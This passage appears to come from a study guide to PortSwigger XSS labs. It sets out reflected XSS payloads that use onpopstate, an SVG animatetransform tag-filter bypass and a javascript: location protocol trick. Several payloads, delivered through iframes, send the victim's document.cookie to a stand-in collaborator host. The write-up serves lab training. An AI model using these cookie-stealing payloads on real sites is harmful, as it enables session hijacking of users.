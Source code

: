 ```JavaScript
?search=%22%3E%3Cbody%20onpopstate=print()>
```  

[PortSwigger Cheat-sheet XSS Example: onpopstate event](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#onpopstate)  

>Below JavaScript is hosted on exploit server and then deliver to victim. The `code` is an iframe doing **onload** and the search parameter is vulnerable to **onpopstate**.  

```JavaScript
<iframe onload="if(!window.flag){this.contentWindow.location='https://TARGET.net?search=<body onpopstate=document.location=`http://COLLABORATOR.com/?`+document.cookie>#';flag=1}" src="https://TARGET.net?search=<body onpopstate=document.location=`http://COLLABORATOR.com/?`+document.cookie>"></iframe>
```  

### Bypass Blocked Tags   
  
>Application controls give message, ***"Tag is not allowed"*** when inserting basic XSS payloads, but discover SVG mark-up allowed using above [methodology](#identify-allowed-tags). This payload steal my own session cookie as POC.  

```html
https://TARGET.net/?search=%22%3E%3Csvg%3E%3Canimatetransform%20onbegin%3Ddocument.location%3D%27https%3A%2F%2Fcollaboration.net%2F%3Fcookies%3D%27%2Bdocument.cookie%3B%3E
```  

>Place the above payload on exploit server and insert URL with search value into an ```iframe``` before delivering to victim in below code block.  

```html
<iframe src="https://TARGET.net/?search=%22%3E%3Csvg%3E%3Canimatetransform%20onbegin%3Ddocument.location%3D%27https%3A%2F%2FCOLLABORATOR.com%2F%3Fcookies%3D%27%2Bdocument.cookie%3B%3E">
</iframe>
```  
  
![svg animatetransform XSS](images/svg-animatetransform-xss.png)  
  
[PortSwigger Lab: Reflected XSS with some SVG markup allowed](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-some-svg-markup-allowed)  
  
### XSS Assign protocol  

>Lab to test XSS into HTML context with nothing encoded in search function. Using this lab to test the **Assignable protocol with location** ```javascript``` exploit ***identified*** by [PortSwigger XSS research](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#assignable-protocol-with-location). In the payload is the ```%0a``` representing the ASCII newline character.  

```html
<script>location.protocol='javascript';</script>#%0adocument.location='http://COLLABORATOR.NET/?p='+document.cookie//&context=html
```  

![XSS protocol location](images/xss-protocol-location.png)  

[PortSwigger Lab: Reflected XSS into HTML context with nothing encoded](https://portswigger.net/web-security/cross-site-scripting/reflected/lab-html-context-nothing-encoded)  
  